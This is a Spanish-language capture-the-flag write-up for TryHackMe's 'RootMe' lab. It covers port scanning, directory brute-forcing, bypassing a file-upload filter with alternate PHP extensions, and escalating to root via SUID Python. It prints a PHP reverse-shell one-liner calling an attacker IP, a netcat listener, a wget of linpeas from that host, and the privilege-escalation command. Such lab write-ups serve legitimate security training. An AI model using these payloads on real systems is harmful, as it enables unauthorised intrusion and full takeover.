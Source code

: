 
[Read on English](README.md)

# RootMe - WriteUp/Walkthrought [THM]

## PWNED By 14Wual

[Github](https://github.com/14wual):  14wual <br>
[Twitter](https://twitter.com/14wual): 14wual <br>
[YouTube](https://youtube.com/@wual): @wual <br>
[Paǵina Web](https://14wual.github.com) <br>

## Acerca del Laboratorio

**Nivel**: Easy <br>
**Sistema Operativo**: Linux <br>

## Recopilación

`Nmap`, hacemos un análisis rápido de todos los puertos, sin resolución `DNS` y resultados a tiempo real:

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 10.10.31.212
```

Output:

```
[sudo] password for wual: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 08:43 CEST
Initiating SYN Stealth Scan at 08:43
Scanning 10.10.31.212 [65535 ports]
Completed SYN Stealth Scan at 08:43, 18.67s elapsed (65535 total ports)
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.76 seconds
           Raw packets sent: 93538 (4.116MB) | Rcvd: 81877 (3.275MB)
```

Como no me dió información ninguna, vamos ha realizar el siguiente escaneo:

```
sudo nmap -p- -sCV 10.10.31.212
```

Esta vez sí, tenemos `ssh` y una página web, puerto `80`, output:

```
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Este es el contenido de la página web:

![web-content](images/web-content.png)

Esta es una página web que no nos resuelve ningun dato, asi que vamos buscar sitios ocultos con feroxbuster, ffuf y gobuster (depende de si nos reportan info o no las usaremos o no.). `Feroxbuster`:

```
feroxbuster -u http://10.10.31.212/ 
```

Ferox, nos ha reportado información bastante valiosa, entre ella resaltamos la carpeta `/uploads`, este es el resultado final:

```
301      GET        9l       28w      309c http://10.10.31.212/js => http://10.10.31.212/js/
301      GET        9l       28w      310c http://10.10.31.212/css => http://10.10.31.212/css/
200      GET       11l       22w      263c http://10.10.31.212/js/maquina_de_escrever.js
200      GET      105l      188w     1697c http://10.10.31.212/css/home.css
301      GET        9l       28w      314c http://10.10.31.212/uploads => http://10.10.31.212/uploads/
301      GET        9l       28w      312c http://10.10.31.212/panel => http://10.10.31.212/panel/
200      GET       25l       44w      616c http://10.10.31.212/
```

Si entramos en panel veremos el siguiente contenido:

![page-panel](images/page-panel.png)

Vamos ha probar ha subir un archivo con extensión `.php`, para ver como reacciona, y de paso interceptar la solicitud `http` con `burpsuite` por si nos arroja información. El archivo llevará la siguiente información:

```php
<?php echo "Hello, world!"; ?>
```

Al interceptar la petición, nos dá la siguiente información:

```
POST /panel/ HTTP/1.1
Host: 10.10.31.212
Content-Length: 331
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.31.212
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjp0ssIIi6mDjXDAW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.31.212/panel/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=dpap9rnmiq4dirslctqnlkl5eo
Connection: close

------WebKitFormBoundaryjp0ssIIi6mDjXDAW
Content-Disposition: form-data; name="fileUpload"; filename="helloworld.php"
Content-Type: application/x-php

<?php echo "Hello, world!"; ?>

------WebKitFormBoundaryjp0ssIIi6mDjXDAW
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryjp0ssIIi6mDjXDAW--
```

![burp-1](images/burp-1.png)

Cuando aceptamos la peitición, nos salta este mensaje: **`PHP não é permitido!`**. Vamos ha probar con subir un html.

Código:

```
<!DOCTYPE html>
<html lang="en">
<head><title>PWNED by 14Wual</title></head>
<body><?php echo "Hello, world!"; ?></body>
</html>
```

Esta vez, podemos ver que sí se puede subir un html.

![upload-succesfull](images/upload-succesfull.png)

Vamos ha intentar subir código malicioso en el archvio `html`:

```
<?php -r '$sock=fsockopen("10.8.129.187",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ?>
```

Por otro lado:

```
sudo nc -lvp 1234
```

Al subirlo, me he dado cuenta que la página, bloquea directamente todo el contenido `php`. Asi que debemos buscar otra manera. Otra manera que he buscado es, crear un archivo `html` con `js` que ejecute un `fetch` a un archivo `php`. `Script js` (en el `php` tenemos una `reverse shell`):

```html
<button id="pwned-btn">Pwned Me</button>

<script>
    document.getElementById("pwned-btn").addEventListener("click", function() {
        console.log("Clicked!")
        fetch('http://10.8.129.187/pwned.php')
            .then(response => response.text())
            .then(data => {console.log(data);})
            .catch(error => {console.log('Error:', error);});
    });
</script>
```

Por desgracia, las `politicas del servidor` bloquean este tipo de conexiones.

```
Acess to fetch at 'http://10.8.129.187/pwned.php' from origin 'http://10.10.31.212' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

Debemos buscar otra manera. Esta vez, subiremos este script lo podeis ver [aqui](script/pwned.php), este es una [reverse shell de pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Pero antes vamos ha coger en `burpsuite` y que realice un par de modificaciones en el `intruder`.

![burp-2](images/burp-2.png)

En el `intruder`, modificamos esta parte de la `petición` (la extension del `filename`):

```
------WebKitFormBoundary3TIe4hBBBCF9Blkq
Content-Disposition: form-data; name="fileUpload"; filename="pwned.§php§"
Content-Type: application/x-php
```

Y ponermos estos payloads

```
php
php3
php4
php5
phpml
```

Vamos ha comprobar la página de uploads, por si se subió:

![upload-2](images/upload-2.png)

Al ver que si se subió, vamos ha abrir otra vez más el puerto[1234] de nuestra página con `nc` y entraremos en algun archivo de los subidos.

![first](images/first.png)

Si entramos en `/var/www` y hacemos `cat user.txt` encontraremos la primera clave: `THM{**********}`

Ahora nos pasaremos el linpeas a la maquina:

```
wget http://10.8.129.187/linpeas_base.sh
```

No nos reportó mucha información y el `sudo -l` no funciona, si hacemos un `find / -perm /4000 2>/dev/` vemos que podemos usar `python` con el `/usr/bin/python`, asi que vamos ha tirar una shell py: `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` Y ya somos root! Si hacemos un id:

```
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

Hacemos un cat `/root/root.txt` y obtenemos la flag >> THM{************}

Muchas gracias por llegar hast aquí!

![finish](images/finish.png)